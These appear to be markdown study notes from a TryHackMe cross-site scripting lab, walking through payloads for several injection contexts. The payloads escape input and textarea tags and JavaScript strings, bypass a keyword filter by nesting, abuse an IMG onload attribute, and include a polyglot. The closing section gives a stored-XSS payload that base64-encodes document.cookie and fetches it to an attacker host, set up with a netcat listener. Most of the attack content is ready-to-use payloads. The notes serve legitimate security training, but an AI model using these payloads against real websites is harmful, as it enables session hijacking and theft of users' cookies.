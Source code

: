 # Scenarios
### If you enter information into a field and it returns that info on a page such as:
![49444bf865cdc230d9855b53d93745c6.png](../../../../../../../../../../Screenshots/49444bf865cdc230d9855b53d93745c6.png)
-  Test for 
```
<script>alert('THM');</script>
```

### If your response is being reflected through an input tag:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)
- It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload: 
```
"><script>alert('THM');</script>
```
- the `">` which closes the value parameter and then closes the input tag.  This now closes the input tag properly and allows the JavaScript payload to run:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/21a6597c0964f08c69ebffbf014a886a.png)

### same as the previous, but your name gets reflected inside an HTML tag, this time the textarea tag:
![c3d0d38d23fab0608bc3ca8b9441974c.png](Screenshots/c3d0d38d23fab0608bc3ca8b9441974c.png)
- to escape the textarea tag, use the following payload: 
```
</textarea><script>alert('THM');</script>
```
- `</textarea>` causes the textarea element to close so the script will run.

### your name gets reflected in some JavaScript code.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/80fd5abe95b63ce52ff0ff9f9f6f6d57.png)
- You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload 
```
';alert('THM');//
```
- The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

### if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.  
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/9bd2142b2bcd4b4cba34e571550294e4.png)  
- The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.  
- When a word gets removed from a string, there's a helpful trick that you can try:
**Original Payload:**
`<sscriptcript>alert('THM');</sscriptcript>`

**Text to be removed (by the filter):**
`<sscriptcript>alert('THM');</sscriptcript>`

**Final Payload (after passing the filter):**
`<script>alert('THM');</script>`

- To do this, use the following payload:
```
<sscriptcript>alert('THM');</sscriptcript>
```

### When prompted to enter an image path
Here, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8856b113fd514db704157837a6e6aeb4.png)  
- You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. 
- The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.
- change our payload to reflect this:
```
/images/cat.jpg" onload="alert('THM');
``` 
- Then viewing the page source, and you'll see how this will work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)

### Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/ -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
-  XSS polyglots are useful for **quick and broad** testing, but they **aren't enough** for thorough XSS testing. You’ll need to craft **context-specific payloads** to evade filters, WAFs, and different sanitization methods.

### Extract cookies when another user visits the same site and loads our script
Our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice.
1. Firstly, we'll need to set up a listening server to receive the information. `nc -lnvp PORT`
2. Build the payload:
```
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the request catcher URL or your IP address from your attacking box
- `PORT_NUMBER` is the port number you are using to listen for connections on 
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.
3. Wait for the connection


